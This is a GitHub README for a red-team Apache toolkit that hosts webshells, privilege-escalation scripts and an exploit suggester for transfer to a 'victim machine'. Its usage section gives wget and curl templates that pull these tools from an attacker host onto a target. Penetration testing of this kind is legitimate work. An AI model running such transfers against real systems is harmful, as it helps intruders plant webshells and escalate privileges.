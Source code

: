 # redteam-apache-toolkit
An apache2 webserver toolkit to enable tool downloads from attacker to target machine via http

## Installation 

To use, the redteam-apache-tookit needs to be located inside /var/www/html. There are two options to do this.  

1) Navigate inside /var/www/html, then use  
```bash
git clone https://github.com/tcbutler320/redteam-apache-toolkit.git  
```  
2) Clone the repoistory to a location of your choosing, then use 
```bash
cp -r redteam-apache-toolkit /var/www/html
```

## Features   
The toolkit includes many tools that come with the latest Kali Linux Distribution as well as some custom tools from the community. See the credits section for details. 


| Category  | Description | Path  |
|---|---|---|
|  Webshells | A collection of webhells broken down by language   |  /redteam-apache-toolkit/webshells |
| priv-escalation  |  Privelege escalation scripts for windows and unix | /redtean-apache-toolkit/priv-escalation  |
| Exploit Suggester  |  A custom exploit suggester script from the pentestmonkeys |  /redteam-apache2-toolkit/exploit-suggester |

## Usage 

1) Start the apache2 webserver 
```bash
service apache2 start
```  
2) Choose the tool you want to transfer to the victim machine   
2) Choose a method of http transfer 


| Method  | Command   |
|---|---|
| wget  | ```wget http://[host-ip]/redteam-apache2-toolkit/[tool category]/[tool name]```  |
|  curl | ``` curl -o [name the file]  http://[host-ip]/redteam-apache2-toolkit/[tool category]/[tool name] ``` |


## Credits   
Thanks to the following for great open source tools included in this kit.   

1) [Pentestmonkey](http://pentestmonkey.net/)